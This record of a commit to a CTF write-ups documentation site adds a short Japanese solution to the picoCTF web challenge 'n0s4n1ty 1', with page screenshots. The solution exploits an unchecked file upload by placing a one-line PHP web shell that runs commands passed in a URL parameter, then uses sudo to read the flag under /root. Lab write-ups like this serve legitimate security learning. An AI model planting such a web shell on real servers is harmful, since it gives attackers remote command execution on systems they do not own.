

Before and after one commit to takaho9/ctf_writeups, an MkDocs documentation site: the page built from docs/picoctf/web/n0s4n1ty-1.md, in a window 1280 px wide and 1034 px high. Shown: the whole window at 94% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
n0s4n1ty

````diff
--- a/docs/picoctf/web/n0s4n1ty-1.md
+++ b/docs/picoctf/web/n0s4n1ty-1.md
@@ -14,7 +14,20 @@ tags:
 A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
 
 ## 解答までの道筋
+ページソースを確認すると、ファイルタイプをチェックしていないことがわかる。
+webshellを置いてみる。
+```php
+# exploit.php
+<?php echo system($_GET['cmd']); ?>
+```
+uploads/exploit.phpに置かれているこがわかった。
+/root以下を見ようとしてもなにもひょうじされなかった
+sudoつけたらいけた。
+![alt text](images/n0s4n1ty-1-1783615417995.png)
+catしておわり
 
 
 
+![alt text](images/n0s4n1ty-1-1783613984722.png)
+
 ## 参考
````
Also changed, not shown: .claude/skills/ctf-note/SKILL.md (added, +94 -0 lines), docs/picoctf/web/images/n0s4n1ty-1-1783613984722.png (added), docs/picoctf/web/images/n0s4n1ty-1-1783615417995.png (added), 1 other file.
